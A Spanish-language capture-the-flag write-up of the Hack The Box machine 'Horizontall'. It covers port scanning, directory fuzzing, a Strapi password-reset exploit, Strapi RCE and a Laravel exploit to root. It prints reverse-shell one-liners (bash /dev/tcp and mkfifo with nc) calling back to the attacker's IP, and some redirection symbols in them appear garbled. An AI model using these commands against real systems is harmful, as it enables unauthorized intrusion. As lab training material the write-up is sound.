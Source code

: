 ```yaml
---
title: 'CTF - Horizontall WriteUp'
date: '2022-02-09'
tags: ["CTF", "Hacking", "VueJS", "Fuzzing", "Rce", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: Hago un escaneo de puertos todos los puertos disponibles con NMAP
---
```


Hago un escaneo de puertos todos los puertos disponibles con NMAP.


```
nmap -p- -sS -T5 --open -vvv 10.10.11.105 -oG allPorts
```
Me devuelve los puertos 80 y 22 como abiertos y abro en un navegador la siguiente url http://10.10.11.105.

![](https://blog.ikerocio.com/content/images/2022/02/image.png)Percibo que me encuentro ante una SPA hecha en VueJS. En un inicio, el código fuente de la web está oculto puesto que se carga posteriormente cuando el navegador interpreta Javascript. Utilizando el devtools de Firefox, encuentro los archivos Vue que llaman a la API para recuperar la información.

![](https://blog.ikerocio.com/content/images/2022/02/Screenshot\_2-1.png)El subdominio que aparece reflejado lo introduzco en mi /etc/hosts con el fin de poder resolver dicha dirección en caso de encontrarme con un virtual hosting.


```
❯ cat /etc/hosts
───────┬─────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼─────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  iocio-virtualbox
   4   │ ::1        localhost ip6-localhost ip6-loopback
   5   │ ff02::1    ip6-allnodes
   6   │ ff02::2    ip6-allrouters
   7   │ 
   8   │ 10.10.11.105    horizontall.htb www.horizontall.htb api-prod.horizontall.htb
```
Realizo fuzzing contra el dominio api-prod.horizontall.htb.


```
 wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://api-prod.horizontall.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://api-prod.horizontall.htb/FUZZ
Total requests: 141708
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================    
000000014:   200        19 L     33 W       413 Ch      "http://api-prod.horizontall.htb/"
000000350:   200        0 L      21 W       507 Ch      "reviews"             
000001895:   200        16 L     101 W      854 Ch      "admin"               
```
Encuentro una ruta interesante en /admin. En ella, aparece un formulario de login de una plataforma denominada Strapi.

![](https://blog.ikerocio.com/content/images/2022/02/image-3.png)Buscando un poco encuentro la siguiente [vulnerabilidad](https://www.exploit-db.com/exploits/50237) que nos permite resetear la contraseña del usuario. Analizando el script, veo que accediendo a la ruta http://api-prod.horizontall.htb/admin/strapiVersion puedo ver la versión del CMS que está detrás. Eso me sirve para confirmar que la versión *3.0.0-beta.17.4* es vulnerable. Aun así, necesito un usuario válido para poder emplear el script.

Si rellenamos el formulario de "olvidó su contraseña", observamos que hay una fuga de información que no debería existir. **Este tipo de formularios no deberían dar pistas sobre que usuarios existen o cuáles no.**

![](https://blog.ikerocio.com/content/images/2022/02/image-5.png)Probamos con admin@horizontall.htb y vemos que no pone nada, por lo que asumimos que ese usuario **SI** existe.

Añadimos en el script los campos acordes a nuestro entorno y ejecutamos.


```
❯ python3 password.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'admin' set for user admin@horizontall.htb
```
De esta forma, hemos modificado la contraseña y podemos ejecutar otro tipo de vulnerabilidades que requieren de autenticación previa. Podemos encontrar una vulnerabilidad de ese tipo [aquí](https://www.exploit-db.com/exploits/50239). Nos ponemos en escucha en el puerto 443 con netcat. 


```
nc -lvp 443
```
Modificamos el script para adaptarlo a nuestras necesidades y ejecutamos.


```
python3 rce.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

$ bash -c 'bash -i & /dev/tcp/10.10.14.15/443 0&1'
```
De esta manera, en la consola de netcat, recibimos una reverse shell con la que podemos empezar a escalar privilegios.


```
strapi@horizontall:~$ whoami
strapi
strapi@horizontall:~$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```
Verifico que puertos hay abiertos en el localhost  de la máquina por si hubiese algún servicio oculto ejecutandose.


```
strapi@horizontall:~$ netstat -tulpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN  
...
```
Con un curl, vemos que es una CMS de Laravel. Creamos una clave ssh para poder conectarnos a la máquina estableciendo un túnel entre mi máquina y la máquina vulnerable con tal de poder ver ese puerto oculto en su localhost.


```
ssh -L 80:127.0.0.1:8000 -i strapi_id_rsa strapi@10.10.11.105
```
![](https://blog.ikerocio.com/content/images/2022/02/image-6.png)Navegando un poco, encontramos un [exploit](https://www.exploit-db.com/exploits/49424) de la versión de Laravel que está siendo ejecutada en la máquina. Comprobamos que funciona con un 'whoami'.


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'whoami'
Exploit...
root
```
Una vez verificado, nos ponemos en escucha con netcat.


```
nc -lvp 443
```
Y nos mandamos una reverse shell con netcat versión antigua (la que tiene la máquina instalada).


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&1|nc 10.10.14.15 443 /tmp/f'
```
Recibimos la shell en nuestro equipo y terminamos con esta máquina.


```
❯ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from horizontall.htb [10.10.11.105] 38560
# whoami
root
# cat /root/root.txt
7360xxxxxxxxxxxxxxxxxxx

```
